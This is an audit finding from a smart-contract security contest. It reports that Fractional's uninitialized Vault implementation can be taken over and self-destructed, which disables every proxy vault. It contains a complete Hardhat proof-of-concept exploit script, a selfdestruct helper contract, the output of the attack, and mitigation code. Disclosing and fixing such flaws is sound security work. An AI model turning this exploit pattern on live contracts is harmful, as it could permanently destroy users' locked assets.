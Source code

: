 ## Tags

- bug
- 3 (High Risk)
- sponsor confirmed

# [Vault implementation can be destroyed leading to loss of all assets](https://github.com/code-423n4/2022-07-fractional-findings/issues/200) 

# Lines of code

https://github.com/code-423n4/2022-07-fractional/blob/8f2697ae727c60c93ea47276f8fa128369abfe51/src/VaultFactory.sol#L19-L22
https://github.com/code-423n4/2022-07-fractional/blob/8f2697ae727c60c93ea47276f8fa128369abfe51/src/Vault.sol#L11-L25


# Vulnerability details


This is a basic uninitialized proxy bug, the `VaultFactory` creates a single implementation of `Vault` and then creates a proxy to that implementation every time a new vault needs to be deployed.

The problem is that that implementation vault is not initialized , which means that anybody can initialize the contract to become the owner, and then destroy it by doing a delegate call (via the `execute` function) to a function with the `selfdestruct` opcode.
Once the implementation is destroyed all of the vaults will be unusable. And since there's no logic in the proxies to update the implementation - that means this is permanent (i.e. there's no way to call any function on any vault anymore, they're simply dead).

## Impact
This is a critical bug, since ALL assets held by ALL vaults will be lost. There's no way to transfer them out and there's no way to run any function on any vault.

Also, there's no way to fix the current deployed contracts (modules and registry), since they all depend on the factory vault, and there's no way to update them to a different factory. That means Fractional would have to deploy a new set of contracts after fixing the bug (this is a relatively small issue though).

## Proof of Concept

I created the PoC based on the `scripts/deploy.js` file, here's a stripped-down version of that:

```javascript
const { ethers } = require("hardhat");

const ZERO_ADDRESS = "0x0000000000000000000000000000000000000000";

async function main() {
    const [deployer, attacker] = await ethers.getSigners();

    // Get all contract factories
    const BaseVault = await ethers.getContractFactory("BaseVault");
    const Supply = await ethers.getContractFactory("Supply");
    const VaultRegistry = await ethers.getContractFactory("VaultRegistry");

    // Deploy contracts

    const registry = await VaultRegistry.deploy();
    await registry.deployed();

    const supply = await Supply.deploy(registry.address);
    await supply.deployed();

    // notice that the `factory` var in the original `deploy.js` file is a different factory than the registry's
    const registryVaultFactory = await ethers.getContractAt("VaultFactory", await registry.factory());

    const implVaultAddress = await registryVaultFactory.implementation();
    const vaultImpl = await ethers.getContractAt("Vault", implVaultAddress);

    const baseVault = await BaseVault.deploy(registry.address, supply.address);
    await baseVault.deployed();
    // proxy vault - the vault that's used by the user
    let proxyVault = await deployVault(baseVault, registry, attacker);

    const destructorFactory = await ethers.getContractFactory("Destructor");
    const destructor = await destructorFactory.deploy();


    let destructData = destructor.interface.encodeFunctionData("destruct", [attacker.address]);

    const abi = new ethers.utils.AbiCoder();
    const leafData = abi.encode(["address", "address", "bytes4"],
        [attacker.address, destructor.address, destructor.interface.getSighash("destruct")]);
    const leafHash = ethers.utils.keccak256(leafData);

    await vaultImpl.connect(attacker).init();

    await vaultImpl.connect(attacker).setMerkleRoot(leafHash);
    // we don't really need to do this ownership-transfer, because the contract is still usable till the end of the tx, but I'm doing it just in case
    await vaultImpl.connect(attacker).transferOwnership(ZERO_ADDRESS);

    // before: everything is fine
    let implVaultCode = await ethers.provider.getCode(implVaultAddress);
    console.log("Impl Vault code size before:", implVaultCode.length - 2); // -2 for the 0x prefix
    let owner = await proxyVault.owner();
    console.log("Proxy Vault works fine, owner is: ", owner);


    await vaultImpl.connect(attacker).execute(destructor.address, destructData, []);


    // after: vault implementation is destructed
    implVaultCode = await ethers.provider.getCode(implVaultAddress);
    console.log("\nVault code size after:", implVaultCode.length - 2); // -2 for the 0x prefix

    try {
        owner = await proxyVault.owner();
    } catch (e) {
        console.log("Proxy Vault isn't working anymore.", e.toString().substring(0, 300));
    }
}

async function deployVault(baseVault, registry, attacker) {
    const nodes = await baseVault.getLeafNodes();

    const tx = await registry.connect(attacker).create(nodes[0], [], []);
    const receipt = await tx.wait();

    const vaultEvent = receipt.events.find(e => e.address == registry.address);

    const newVaultAddress = vaultEvent.args._vault;
    const newVault = await ethers.getContractAt("Vault", newVaultAddress);
    return newVault;
}


if (require.main === module) {
    main()
}
```

`Destructor.sol` file:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity 0.8.13;

contract Destructor{
    function destruct(address payable dst) public {
        selfdestruct(dst);
    }
}
```

Output:
```
Impl Vault code size before: 10386
Proxy Vault works fine, owner is:  0x5FbDB2315678afecb367f032d93F642f64180aa3

Vault code size after: 0
Proxy Vault isn't working anymore. Error: call revert exception [ See: https://links.ethers.org/v5-errors-CALL_EXCEPTION ] (method="owner()", data="0x", errorArgs=null, errorName=null, errorSignature=null, reason=null, code=CALL_EXCEPTION, version=abi/5.6.2)
```

Sidenote: as the comment in the code says, we don't really need to transfer the ownership to the zero address.
It's just that Foundry's `forge` did revert the destruction when I didn't do it, with the error of `OwnerChanged` (i.e. once the `selfdestruct` was called the owner became the zero address, which is different than the original owner) so I decided to add this just in case.
This is probably a bug in `forge`, since the contract shouldn't destruct till the end of the tx (Hardhat indeed didn't revert the destruction even when the attacker was the owner).

## Tools Used
Hardhat

## Recommended Mitigation Steps



Add init in `Vault`'s constructor (and make the `init` function `public` instead of `external`):

```solidity
contract Vault is IVault, NFTReceiver {
    /// @notice Address of vault owner
    address public owner;
    /// ...

    constructor(){
        // initialize implementation
        init();
    }

    /// @dev Initializes nonce and proxy owner
    function init() public {

```

Alternately you can add init in `VaultFactory.sol` constructor, but I think initializing in the contract itself is a better practice.

```solidity
    /// @notice Initializes implementation contract
    constructor() {
        implementation = address(new Vault());
        Vault(implementation).init();
    }

```



After mitigation the PoC will output this:

```
Error: VM Exception while processing transaction: reverted with custom error 'Initialized("0xa16E02E87b7454126E5E10d957A927A7F5B5d2be", "0x70997970C51812dc3A010C7d01b50e0d17dc79C8", 1)'
    at Vault._execute (src/Vault.sol:124)
    at Vault.init (src/Vault.sol:24)
    at HardhatNode._mineBlockWithPendingTxs
    ....
```

